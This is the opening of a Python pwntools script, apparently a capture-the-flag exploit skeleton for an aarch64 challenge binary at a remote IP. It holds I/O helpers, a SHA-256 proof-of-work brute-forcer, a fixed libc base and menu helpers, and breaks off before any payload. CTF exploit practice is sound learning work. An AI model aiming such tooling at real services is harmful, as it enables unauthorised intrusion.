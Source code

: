 ```python
#coding:utf-8
from pwn import *
from time import sleep
import sys

global io
ru = lambda p, x        : p.recvuntil(x)
sn = lambda p, x        : p.send(x)
rl = lambda p           : p.recvline()
sl = lambda p, x        : p.sendline(x)
rv = lambda p, x=1024   : p.recv(numb = x)
sa = lambda p, a, b     : p.sendafter(a,b)
sla = lambda p, a, b    : p.sendlineafter(a,b)
rr = lambda p, t        : p.recvrepeat(t)
rd = lambda p, x        : p.recvuntil(x, drop=True)
charset = []
for w in range(48, 58):
    charset.append(bytes([w]))
for w in range(65, 91):
    charset.append(bytes([w]))
for w in range(97, 123):
    charset.append(bytes([w]))

def bp(tail, sha, io):
    for char1 in charset:
        for char2 in charset:
            for char3 in charset:
                for char4 in charset:
                    _sha = hashlib.sha256(char1+char2+char3+char4+tail).hexdigest().encode()
                    if _sha == sha:
                        print(char1+char2+char3+char4+tail)
                        sla(io, 'Give me xxxx:\n', char1+char2+char3+char4)
                        break

# amd64 or x86
context(arch = 'aarch64', os = 'linux', endian = 'little')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

filename = "./chall"
ip = "52.255.184.147"
port = 8080

LOCAL = len(sys.argv)==1

elf = ELF(filename)
libc = ELF("./lib/libc.so.6")
libc.address = 0x4000844000

def pause(p, s = 'pause'):
    if LOCAL:
        print('pid: ' + str(p.pid))
        return input(s)
    else:
        return input(s)

def choice(p, idx):
    sla(p, ">> ", str(idx))
    
def lg(name, val):
    log.info(name+" : "+hex(val))

def add(p, val):
```